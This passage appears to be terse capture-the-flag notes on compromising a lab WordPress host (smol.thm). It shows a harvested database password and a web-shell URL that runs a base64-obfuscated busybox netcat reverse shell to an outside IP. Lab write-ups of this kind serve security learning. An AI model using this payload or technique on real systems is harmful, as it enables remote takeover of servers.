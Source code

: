```
/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );
```

![](../../Attachements/Pasted%20image%2020250223224022.png)


http://www.smol.thm/wp-admin/index.php?cmd=echo YnVzeWJveCBuYyAxMC4xNC45MC4yMzUgNDQ0NSAtZSAvYmluL2Jhc2g= | base64 -d | bash
use it in browser

